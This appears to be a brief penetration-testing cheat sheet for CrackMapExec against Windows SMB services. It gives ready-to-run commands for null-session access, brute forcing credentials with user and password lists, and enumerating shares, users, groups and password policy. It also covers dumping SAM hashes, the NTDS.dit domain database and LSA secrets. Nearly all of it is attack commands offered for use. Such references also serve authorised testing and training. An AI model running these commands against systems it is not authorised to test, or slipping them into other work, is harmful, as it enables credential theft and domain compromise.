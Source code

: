 # CrackMapExec

## SMB

### Connecting using a null session

```bash
crackmapexec smb <ip> -u '' -p '' --shares
```

### Brute forcing credentials

```bash
crackmapexec smb <ip> -u <usersfile> -p <passwordsfile> | grep -v '\[-\]'
```

### Enumerating shares

```bash
crackmapexec smb <ip> -u <username> -p <password> --shares
```

### Enumerating users

```bash
crackmapexec smb <ip> -u <username> -p <password> --users
```

### Enumerating groups

```bash
crackmapexec smb <ip> -u <username> -p <password> --groups
```

### Enumerating password policy

```bash
crackmapexec smb <ip> -u <user> -p <password> --pass-pol
```

### Dumping SAM hashes

```bash
crackmapexec smb <ip> -u <username> -p <password> --sam
```

### Dumping NTDS.dit

```bash
crackmapexec smb <ip> -u <username> -p <password> --ntds
```

### Dumping LSA Secrets

```bash
crackmapexec smb <ip> -u <username> -p <password> --lsa
```